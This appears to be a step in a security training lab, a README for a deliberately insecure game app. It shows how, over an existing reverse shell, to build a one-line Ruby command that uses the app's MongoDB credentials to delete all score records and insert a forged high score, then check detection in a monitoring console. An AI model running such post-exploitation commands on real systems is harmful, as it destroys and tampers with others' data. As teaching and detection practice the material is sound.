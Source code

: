 # 🔥 Vulnerable Labs: Updating High Scores!
*A deliberately insecure application for security education and demos*

---

## 💀 About the Challenge

In this exercise you'll learn how to construct ruby code to update high scores in the Mongo Database.

In situations where there are constraints on the ability to install additional tools (such as applicaton whitelisting) attackers 
pivot to Living Off The Land (LOTL) techniques. In this case you'll execute your own ruby code to update the MongoDB with a new high score.

This could extend to other situations, like interacting with other non-public resources that are accessible from the compromised host 
e.g., on-premises resources over a VPN, Direct Connect, or Express Route. 



### 🎯 Your Mission

1. Ensure your reverse shell is still active. You can re-run the reverse shell commands from [2-Reverse-Shell.md](2-Reverse-Shell.md) if needed.
2. On your laptop, open a text editor / notepad and open the file [webserver.rb](../web/webserver.rb).
3. Copy from line 3:
```ruby 
require 'mongo'; 
```
4. Copy from line 25:
```ruby 
client = Mongo::Client.new(ENV['MONGODB_CONN']);
```
5. Copy from line 26:
```ruby 
db = client.use('game_db');
```
6. Copy from line 27:
```ruby
scores_collection = db[:player_scores]
```
7. Append the following (change the name if you like):
```ruby
scores_collection.insert_one({\"player\":\"Alice\",\"score\":1000});
```
8. Prepend the start of the command with:
```ruby
ruby -e "
```
9. Append the following to the end of the command:
```ruby
"
```
10. Ensure your final command looks like:
```ruby
ruby -e "require 'mongo'; client = Mongo::Client.new(ENV['MONGODB_CONN']); db = client.use('game_db'); scores_collection = db[:player_scores]; scores_collection.delete_many({});  scores_collection.insert_one({\"player\":\"Alice\",\"score\":1000}); "
```

11. Check the reverse shell is still active and run the command:
```bash
ruby -e "require 'mongo'; client = Mongo::Client.new(ENV['MONGODB_CONN']); db = client.use('game_db'); scores_collection = db[:player_scores]; scores_collection.delete_many({});  scores_collection.insert_one({\"player\":\"Alice\",\"score\":1000}); "
```
12. A successful execution will return a result similar to:
```bash
<insert_one({\"player\":\"Alice\",\"score\":1000}) 
```
13. Browse to the webserver_IP and check your high score. 

Congratulations, you've completed this challenge. Can you now find the command you executed in Wiz? How long did it take to appear in the console?

### 💥 Hints & Tips

- We need to put a semicolon ; after each command. The semicolon is the equivalent to a linebreak when compiled and executed by the ruby interpreter. 